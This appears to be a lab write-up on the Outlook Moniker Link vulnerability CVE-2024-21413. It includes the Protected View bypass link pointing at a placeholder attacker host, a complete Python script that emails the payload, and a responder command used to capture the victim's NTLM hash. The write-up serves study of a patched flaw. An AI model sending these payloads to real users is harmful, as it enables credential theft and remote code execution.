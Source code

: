 ```yaml
---
categories: [CVE-hunt, CVE-2024-21413]
tags: [microsoft rce]     # TAG names should always be lowercase
author: Darshan
description: The Outlook Moniker Link CVE-2024-21413 vulnerability allows attackers to exploit Remote Code Execution (RCE) via specially crafted email links.
image:
    path: /assets/img/Banners/moniker-link.png
pin: false
---
```


On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

## Scoring of the vulnerability:

| **CVSS** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

## Explanation:

Outlook can render emails as HTML. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).

but there is Protected view in outlook which opens contents in only read-only mode blocking such as macros.

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (**`<a href="file://ATTACKER_IP/test>Click me</a>`**). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the **`!`** special character and some text in our Moniker Link which results in bypassing Outlook's Protected View. 

For example:

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

This vulnerability uses the Component Object Model (COM) technology in Windows. COM is a system for enabling software components to communicate, which helps applications like Outlook interact with other Microsoft programs, such as Word. By exploiting this, an attacker can create a special link that, when clicked, automatically opens the file in Word without Protected View. This method allows attackers to run commands, possibly even malicious code, on the victim's machine without obvious warning signs.

## Exploitation:

For the exploitation we'll use the TryHackMe's this lab: https://tryhackme.com/r/room/monikerlink

In this lab we have given a windows machine and the vulnerable Outlook version.

Open that Outlook and we can see our Target: `victim@monikerlink.thm`

![image.png](/assets/img/CVE/image.png)

Now to exploit this vulnerability we have to create a crafted email with moniker link. For that we can use the exploit available on github: 

https://github.com/CMNatic/CVE-2024-21413

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Few Changes has to be made for this exploit to work:

- Change `ATTACKER_MACHINE` with the IP of attacker's machine.
- Change `MAILSERVER` with the IP of the Victim's machine.

Other than this we require a SMTP/SMB server to ensure the email sent bypasses common email validation checks such as SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail), and DMARC (Domain-based Message Authentication, Reporting, and Conformance).

For this we'll use the `responder` command. It acts as a rogue server to intercept network authentication requests by responding to services.

Command:

```python
responder -I <interface_name (such as tun0,ens5)>
```

After setting us server we'll run this code:

![image.png](/assets/img/CVE/image%201.png)

Check the Outlook's mail box

![image.png](/assets/img/CVE/image%202.png)

Click that button and we get the NTLM hash of the victim.

![Screenshot 2024-11-01 235959.png](/assets/img/CVE/image%203.png)

This is how the vulnerability is exploited and this can be even worse. Attacker can literally get the Remote Code Execution on the victim's machine.

*Thank you for reading!! ;)*